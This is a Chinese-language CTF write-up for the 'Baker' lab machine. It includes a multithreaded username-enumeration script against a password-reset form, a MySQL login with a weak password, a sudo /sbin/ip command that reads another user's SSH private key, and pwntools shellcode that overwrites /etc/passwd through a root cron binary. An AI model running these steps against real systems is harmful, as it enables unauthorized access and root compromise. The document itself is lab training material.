







# Baker

> MazeSec社区大本营 靶机做题群里的

‍

## nmap

```py
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 10.0 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.66 ((Unix))
|_http-favicon: Unknown favicon MD5: 87D268F322601053318326ACE0A561BC
|_http-server-header: Apache/2.4.66 (Unix)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Dairy - Website Baker
3306/tcp open  mysql   syn-ack ttl 64 MariaDB 11.4.8
| mysql-info: 
|   Protocol: 10
|   Version: 11.4.8-MariaDB
|   Thread ID: 5
|   Capabilities flags: 65534
|   Some Capabilities: InteractiveClient, DontAllowDatabaseTableColumn, ConnectWithDatabase, Speaks41ProtocolNew, FoundRows, LongColumnFlag, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, Support41Auth, IgnoreSigpipes, SupportsTransactions, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, SupportsCompression, ODBCClient, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: x45PoawT~=TmKl_wW0&m
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MariaDB Server
| Issuer: commonName=MariaDB Server
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-05-09T10:45:22
| Not valid after:  2036-05-06T10:45:22
| MD5:     3185 d5fe f0df 8d37 3336 41c0 cc92 3345
| SHA-1:   91d4 8cb2 e9dc 447b 15ec 8197 6889 d00a cd28 4146
| SHA-256: dd22 9766 8554 b461 b55a d94b ffc7 3924 f6ec 79a9 155a 661a 5255 c809 4b46 ee26
| -----BEGIN CERTIFICATE-----
| MIIEqzCCApOgAwIBAgIBADANBgkqhkiG9w0BAQsFADAZMRcwFQYDVQQDDA5NYXJp
| YURCIFNlcnZlcjAeFw0yNjA1MDkxMDQ1MjJaFw0zNjA1MDYxMDQ1MjJaMBkxFzAV
| BgNVBAMMDk1hcmlhREIgU2VydmVyMIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIIC
| CgKCAgEAjcBWXeqbQ2yw1H/raued8jwZs2/rC+WPZTs6lAtKz4AmFbQNUTr/ki0C
| 76njYHL2WeGzWB9oBR2YHzQcutOXrwyMQPi0nTG8sMZLef1p16Cem4WYl8ToV10c
| QLopG+YLfEhKW2R1RXxCCN6zRb7+dmSfjFxoH0nl76FIOmtdLRlkE/pfU/yZ3mXq
| mCzX3e+KX/KghGEu42F+sUJj8sLdgJHc92fYWyYgHYonfBzVBKsO7xUiY+yq0FhB
| qQOGKBs7wVKO0hglx59jpEdYqSlcUYP6MzppFR6h7AFLezXSFsM0ofV9flGHKes+
| x/WEWZ/bdimsu4q7wDtlc73xb2SV0Moio3dM/xPh9tcdWoD5fdGxUssQHgo5LY9a
| oWMdSuPSxKy8Kd2pN4QVYrS+T2FQiOK6MGF/i7KorA9m/pH0mlwYSpXV4nm4AuyE
| RG8PCIr3/erckwjhjcwePgpoxFUFadbyub0MBsDfL2HgnAthmYq6+8HjPMjfr8Qr
| Mx9T1uAyqRQTz8icLVZ0xtUwJ85v01NSd4DeAADlvzXLsNy2L7xAk7rh2idc2ecq
| mGqOYySj0dBU26bUh80mmedQYPzvmxtA1LghwAhONNc+yGvsJphWV5Aw03uf1jGb
| HWJFmNHo5P5HD94EXnpaH6ZwoXMKtnjrDa3TPju0G6DQmf0o39UCAwEAATANBgkq
| hkiG9w0BAQsFAAOCAgEAPdOs8ED+gHf8q2SbVEcnWeHl2BrQ6ASnK35gzXOJug32
| unM4G/ZG9oshH315T5Iz+j9O1a9Ts8fojscgGiOSILDIf2TjI8K2ibzNgBFB2+ks
| cl9A6oKNQSiTE4zlPDXpDElTYE6IYTxXrh06myUgaJcSypZ5dcjrorKyGWLhS+9i
| Bh9WPo3gxWcF42Mdx796Wv+MZxuFLjtpN/Oi4WnNCAm4s/gk1gCk5rmjGfynD7in
| 4qHmYWKBWPKNYxhefTZLTg/DC3j71brAKUbzrn3wAV2NZHbTzIHgMaVnGX8//lRB
| dM/1CDwzVk7DRTiXPoAIkmmjfmxPj96l+BGzXXuCgVXdl1SQ+QownxI+zXncgDv2
| Ud29jwBselyV9/vwy0LT5RuBiccDWycfTaBi48R2TwYYejAARec3wxgjCyY/WuEf
| w4eoMV/ABnzVM/VXEXfQ+ZSWE8DEpF2vocUFu9UIaOxD8WBX0vKoTwpDr6X62767
| S+Eg3LqFIrVDf50DpYocOH1nvRLZ9Hxl/Pd4Po4eMH25/3pYK+YxNlz699+Tbf7/
| R8CJ1WCVIjsg8Bu/+/W4AFUGI0WxYiJKoIz1FlaL4RDoCI8qt9jk6u6R/HLoewBY
| cJv4PqSqEwKkLM2eHf0wxMmt+M+XgmxQQNyX5ps+L/21e1CWrwugmpcC5NSZ0VY=
|_-----END CERTIFICATE-----
MAC Address: 08:00:27:01:F1:A4 (Oracle VirtualBox virtual NIC)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:48
Completed NSE at 06:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:48
Completed NSE at 06:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:48
Completed NSE at 06:48, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.75 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

‍

‍



```py
➜  fscan dirsearch -u http://baker.dsz/                     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict                                                       
                                                            
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                        
 (_||| _) (/_(_|| (_| )                                     
                                                                                                                        
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460                            
                                                                                                                        
Output File: /mnt/Downloads/st_tools/fscan/reports/http_baker.dsz/__26-05-09_07-41-04.txt                               
                                                                                                                        
Target: http://baker.dsz/                                   
                                                            
[07:41:04] Starting:                                        
[07:41:05] 200 -   25B  - /.gitignore
[07:41:05] 403 -  312B  - /.ht_wsr.txt
[07:41:05] 403 -  312B  - /.htaccess.bak1
[07:41:05] 403 -  312B  - /.htaccess.sample
[07:41:05] 403 -  312B  - /.htaccess.orig                   
[07:41:05] 403 -  312B  - /.htaccess.save
[07:41:05] 403 -  312B  - /.htaccess_extra                  
[07:41:05] 403 -  312B  - /.htaccess_orig
[07:41:05] 403 -  312B  - /.htaccess_sc                     
[07:41:05] 403 -  312B  - /.htaccessBAK                     
[07:41:05] 403 -  312B  - /.htaccessOLD
[07:41:05] 403 -  312B  - /.htm
[07:41:05] 403 -  312B  - /.html                            
[07:41:05] 403 -  312B  - /.htpasswd_test
[07:41:05] 403 -  312B  - /.htpasswds                       
[07:41:05] 403 -  312B  - /.httr-oauth                      
[07:41:05] 403 -  312B  - /.htaccessOLD2
[07:41:07] 301 -  346B  - /account  ->  http://baker.dsz/account/                                                       
[07:41:07] 301 -    0B  - /account/  ->  login.php
[07:41:07] 302 -    0B  - /account/login.php  ->  http://baker.dsz/index.php
[07:41:08] 301 -  344B  - /admin  ->  http://baker.dsz/admin/
[07:41:08] 302 -    0B  - /admin/  ->  http://baker.dsz/admin/start/index.php
[07:41:08] 301 -  350B  - /admin/login  ->  http://baker.dsz/admin/login/
[07:41:08] 302 -    0B  - /admin/index.php  ->  http://baker.dsz/admin/start/index.php
...
```

‍

​`README.md` 可以得到邮箱的格式，看来一圈 登录 和 找回密码功能，输入错误的邮箱会提示不在数据库,写个脚本爆破一下 



这里我写个个脚本，发现有点慢，然后让Ai 给我加个多线程

```py
import requests
import re
from concurrent.futures import ThreadPoolExecutor

uri = 'http://baker.dsz/admin/login/forgot/index.php'

calc = {
    'subtract': '-',
    'multiply': '*',
    'add': '+'
}

def check_username(name):
    name = name.strip()
    if not name:
        return

    try:
        sess = requests.session()
        # 获取初始页面和验证码
        resp_get = sess.get(uri, timeout=5)
        text = resp_get.content
        
        # 提取验证码逻辑
        r1 = re.findall(b'>\n\t\t\t\t\t\t\t(.*?)\t\t\t\t\t\t', text)
        if not r1:
            return
            
        r1_split = r1[0].decode().split(' ')
        # 组装运算式：例如 5 + 3
        math_expr = f'{r1_split[0]}{calc[r1_split[1]]}{r1_split[2]}'
        captcha_val = eval(math_expr)
        
        # 提交表单
        data = {
            'email': f'{name}@baker.dsz',
            'captcha': captcha_val,
            'submit': 'Send Details'
        }
        
        resp_post = sess.post(uri, data=data, timeout=5)
        error_msg = 'The email that you entered cannot be found in the database'
        
        # 逻辑修复：如果错误信息不在响应页面中，说明用户名可能存在
        if error_msg not in resp_post.text:
            print(f"[+] Found: {name}")
            
    except Exception as e:
        # 忽略网络超时等异常，继续下一个
        pass

def main():
    wordlist_path = '/opt/SecLists-master/Usernames/xato-net-10-million-usernames-dup.txt'
    threads = 10

    print(f"[*] Starting enumeration with {threads} threads...")
    
    with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
        # 使用线程池执行任务
        with ThreadPoolExecutor(max_workers=threads) as executor:
            # map 会依次从文件读取行并分发给线程
            executor.map(check_username, f)

if __name__ == '__main__':
    main()
```

拿到两个用户名

```py
➜  tst py 2.py 
[*] Starting enumeration with 10 threads...
[+] Found: carol
[+] Found: martina
```

然后去想着去爆破密码，但是有限制，登录太多次IP就会被封

‍

## mysql 弱口令

然后卡了一段时间，后面测了一下数据库 没想到弱口令进去了

```py
mysql -h 192.168.100.34 -u root -proot
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 35454
Server version: 11.4.8-MariaDB Alpine Linux

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
| wbce_db            |
| wbce_test          |
+--------------------+
7 rows in set (0.001 sec)

MariaDB [(none)]>
```

‍

但是也没这么完美，有很多权限限制，没有权限操作  `wbce_db`​  但是可以看 `wbce_test`

里面发现个password 

```py
MariaDB [wbce_test]> SELECT * FROM wbce_users;                                                                                                  
+---------+----------+-----------+----------+---------------+----------+-------------------+-----------------+--------+------------+--------------------------------------------------------------+--------------+------------+----------+-------------+-------------+-------------+------------
+----------+------------------+----------------+--------------------+                                                                           
| user_id | group_id | groups_id | username | display_name  | language | email             | signup_checksum | active | gdpr_check | password                                                     | remember_key | last_reset | timezone | date_format | time_format | home_folder | login_when 
| login_ip | signup_timestamp | signup_timeout | signup_confirmcode |                                                                           
+---------+----------+-----------+----------+---------------+----------+-------------------+-----------------+--------+------------+--------------------------------------------------------------+--------------+------------+----------+-------------+-------------+-------------+------------
+----------+------------------+----------------+--------------------+                                                                           
|       1 |        0 | 0         | admin    | Administrator | DE       | admin@baker.local |                 |      0 |          0 | $2y$10$NwaR46o119WADcffpS5M8.qTCmNaCqx3Ga6M1wKQJEhy7pUufnO9u
```

‍



试试用爆出的这个密码登录 前面爆破处来的 用户名@邮箱，没想到进去了哈

```bash
carol:33333333
martina:33333333

```




‍

进后台就简单了，因为在这之前 只看到了一个 后台 RCE的漏洞

https://www.exploit-db.com/exploits/52489，跟着里面的步骤操作一下就行了

‍



‍

## apache -> carol

卡了半天没想到 apache 还有 sudo

```py
Baker:/tmp$ sudo -l
Matching Defaults entries for apache on Baker:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for apache:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User apache may run the following commands on Baker:
    (carol) NOPASSWD: /sbin/ip

```

读 carol 用户的 id_rsa

```py
sudo -u carol /sbin/ip -force -batch '/home/carol/.ssh/id_rsa'
```

‍

```py
➜  tst ssh carol@192.168.100.34 -i id_rsa1
The authenticity of host '192.168.100.34 (192.168.100.34)' can't be established.
ED25519 key fingerprint is: SHA256:xJ90oWmr5sPR2afHz9etzSdtxINmLI+JvbwgV/iCsWY
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.34' (ED25519) to the list of known hosts.
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|
                                         
carol@Baker:~$ ls
user.txt
carol@Baker:~$ 
```

‍

## carol->root

在apache权限的时候就看了一圈这个东西，carol 正好在 devs 组能

devs 组对 scripts目有权限

```py
ls -alh /opt
total 12K    
drwxr-xr-x    3 root     root        4.0K Apr  7 22:10 .
drwxr-xr-x   21 root     root        4.0K May  5 22:53 ..
drwxrwxr-x    2 root     devs        4.0K May 10 15:20 scripts
```

‍

```py
2026/05/10 12:38:50 CMD: UID=0     PID=1      | /sbin/init                                                                                                    
2026/05/10 12:39:00 CMD: UID=0     PID=3061   | /usr/sbin/crond -c /etc/crontabs -f                                                                           
2026/05/10 12:39:00 CMD: UID=0     PID=3062   |                                                                                                               
2026/05/10 12:40:00 CMD: UID=0     PID=3065   |                                                                                                               
2026/05/10 12:40:00 CMD: UID=0     PID=3066   | objcopy --dump-section .note.sig=/tmp/sig_verify.bin /opt/scripts/monitor                                     
2026/05/10 12:40:00 CMD: UID=0     PID=3067   |                                                                                                               
2026/05/10 12:40:00 CMD: UID=0     PID=3068   | /opt/scripts/monitor                                                                                          
2026/05/10 12:40:01 CMD: UID=0     PID=3069   | /bin/sh /usr/local/bin/check-monitor.sh
```

‍

​`/usr/local/bin/check-monitor.sh` 有个验证啥的，不管了，直接改main 的汇编得了

```py
Baker:/var/tmp$ cat /usr/local/bin/check-monitor.sh
#!/bin/sh

TARGET="/opt/scripts/monitor"
SIG_SECTION=".note.sig"
TEMP_SIG="/tmp/sig_verify.bin"
VENDOR_STR="Maze-Sec-Internal-Only"

objcopy --dump-section $SIG_SECTION=$TEMP_SIG $TARGET 2>/dev/null

if [ $? -ne 0 ]; then
    echo "[!] Error: Binary not signed."
    exit 1
fi

if grep -q "$VENDOR_STR" $TEMP_SIG; then
    echo "[+] Signature verified. Executing..."
    $TARGET
else
    echo "[!] Security Alert: Unauthorized binary detected!"
fi

rm -f $TEMP_SIG

```

‍

```py
>>> from pwn import *
>>> context.arch='amd64'
>>> sc = shellcraft.execve('/bin/sh',['/bin/sh','-c','cp -f /opt/scripts/passwd /etc/passwd'],0) + shellcraft.exit(0);
>>> asm(sc).hex()
'48b801010101010101015048b82e63686f2e726901483104244889e76a01fe0c2448b8632f7061737377645048b873737764202f65745048b872697074732f70615048b8202f6f70742f73635048b801010101010101015048b82c62016271212c674831042448b801010101010101015048b82e63686f2e7269014831042431f6566a135e4801e6566a185e4801e6566a185e4801e6564889e631d26a3b580f0531ff6a3c580f05'
```



然后覆盖 原本的 `monitor`

‍

```py
objdump -s -j .note.sig ./monitor
./monitor:     file format elf64-x86-64
Contents of section .note.sig:
 0000 4d617a65 2d536563 2d496e74 65726e61  Maze-Sec-Interna
 0010 6c2d4f6e 6c793a20 41757468 6f72697a  l-Only: Authoriz
 0020 65642062 79205375 626c6172 67650a    ed by Sublarge.
```

- 问的 AI 说要在 `sig_verify.bin` 写这个

```py
aker:/tmp$ cat sig_verify.bin                                 
Maze-Sec-Internal-Only
```



‍
